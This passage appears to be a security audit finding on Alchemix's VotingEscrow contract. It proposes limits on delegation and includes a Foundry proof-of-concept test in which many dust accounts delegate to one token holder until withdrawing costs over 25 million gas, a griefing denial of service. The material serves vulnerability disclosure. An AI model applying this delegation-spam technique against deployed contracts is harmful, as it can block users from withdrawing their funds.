 Adjust the `MAX_DELEGATES` from 1024 to 128 Or Give an option for users to opt-out/opt-in for a certain delegated tokens. Users will only accept the delegated tokens if they opt-in, or users can opt-out to refuse any uncommissioned delegated tokens.
## References

- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1033-L1052
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1103-L1130


## Proof Of Concept

**Steps to Run using Foundry:**
- Paste following foundry code in `src/test/VotingEscrow.t.sol`
- Run using `FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testDelegateLimitAttack -vv`

```solidity
function testDelegateLimitAttack() public {
    // Give some tokens to this contract
    hevm.startPrank(address(admin));
    IERC20(bpt).transfer(address(this), TOKEN_1M);
    hevm.stopPrank();

    // Give full approval to voting escrow
    IERC20(bpt).approve(address(veALCX), type(uint256).max);

    uint EPOCH = veALCX.EPOCH();

    uint tokenId = veALCX.createLock(TOKEN_1, EPOCH, false);

    for(uint256 i = 0; i < veALCX.MAX_DELEGATES() - 1; i++) {
        hevm.roll(block.number + 1);
        hevm.warp(block.timestamp + 12);
        
        address fakeAccount = address(uint160(block.timestamp + i));
        IERC20(bpt).transfer(fakeAccount, 1);

        hevm.startPrank(fakeAccount);
        IERC20(bpt).approve(address(veALCX), type(uint256).max);
        veALCX.createLock(1, MAXTIME, true);
        veALCX.delegate(address(this));
        hevm.stopPrank();
    }
    
    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + EPOCH);
    veALCX.startCooldown(tokenId);

    hevm.roll(block.number + 1);
    hevm.warp(block.timestamp + EPOCH);

    uint initialGas = gasleft();
    veALCX.withdraw(tokenId);
    uint gasUsed = initialGas - gasleft();
    
    console.log("Gas Used in total: ", gasUsed);
    assertGt(gasUsed, 25_000_000);
}
```
